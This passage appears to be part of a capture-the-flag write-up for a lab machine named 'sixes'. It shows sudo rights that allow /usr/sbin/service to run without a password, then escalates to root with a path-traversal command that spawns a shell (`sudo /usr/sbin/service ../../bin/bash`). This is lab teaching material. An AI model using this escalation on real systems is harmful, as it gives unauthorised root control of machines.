 ## Flag 6: Getting root

On to the last flag now! By checking webmasters files, we find out that the root user left him the following notes via his /sbin/notemaker setup:
~~~
webmaster@sixes:~$ cat notes.txt 
2019-10-02 21:08:05 ~-> root said: Hey webmaster, in case the web server goes down, I gave you some privileges so you can start/stop/restart it whenever you want. Cheers.
2019-10-02 21:08:33 ~-> root said: Hey again, how many times should I repeat that YOU SHOULD NEVER USE GETS? Seriously, even the compiler reminds you... Go fix it now or I'll delete your minecraft account.
~~~

He should have listend to him regarding the gets, but now it's too late =)

With `sudo -l`  we can see what root means regarding providing the privileges to webmaster:

~~~
webmaster@sixes:~$ sudo -l
Matching Defaults entries for webmaster on sixes:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webmaster may run the following commands on sixes:
    (root) NOPASSWD: /usr/sbin/service
~~~

Very interesting: webmaster is allowed to execute /usr/sbin/service as root without the need to provide a password. 

The intention is that this should allow him to restart services. Probably he was messing up the webserver soo much that root got sick of it and finaly thought webmaster should maintain it himself ...

e.g.
~~~
webmaster@sixes:~$ sudo -u root /usr/sbin/service apache2 restart
~~~

A quick google research reveals that this is a huge security risk: https://gtfobins.github.io/gtfobins/service/

What root probably couldn't imagine is that this can also be abused to spawn other processes (and even shells).

~~~
webmaster@sixes:~$ sudo /usr/sbin/service ../../bin/bash
~~~

Now we have fully owned the machine and can grab the root flag!

![](attachments/Clipboard_27.png)
